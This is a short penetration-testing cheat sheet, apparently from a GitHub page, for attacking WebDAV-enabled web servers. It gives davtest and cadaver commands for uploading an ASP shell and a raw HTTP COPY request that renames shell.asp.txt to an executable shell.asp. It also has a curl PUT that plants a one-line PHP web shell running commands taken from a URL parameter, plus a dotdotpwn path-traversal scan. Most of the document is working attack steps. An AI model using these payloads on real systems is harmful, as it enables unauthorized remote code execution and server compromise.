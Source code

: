 ### Davtest

```
./davtest.pl -URL http://*target*/Scripts -uploadfile /var/www/html/shell.asp.txt -uploadloc shell.asp.txt
```

```
root@kali:~/Downloads/davtest-1.0# nc 10.11.1.13 80 -vv
10.11.1.13: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.1.13] 80 (http) open
COPY /Scripts/shell.asp.txt HTTP/1.1
HOST: 10.11.1.13
Destination: http://10.11.1.13/Scripts/shell.asp
Overwrite: T
```

### cadaver

Cadaver http://*target*/webdav

Username: wampp

Password:

Webdav> put.txt

### Get header

focus more on the web apps or hidden directories here

curl -i *target*

### Get everything web

curl -i -L *target*

### Check for title and all links

curl *target* -s -L | grep "title\|href" | sed -e 's/^[[:space:]]*//'

### Look at page with just text

curl *target* -s -L | html2text -width '99' | uniq

### Check if it is possible to upload

```
curl -v -X OPTIONS http://*target*/

curl -v -X PUT -d '<?php system(*dollar-sign*_GET["cmd"]); ?>' http://*target*/test/shell.php

dotdotpwn.pl -m http -h *target* -M GET -o unix

```
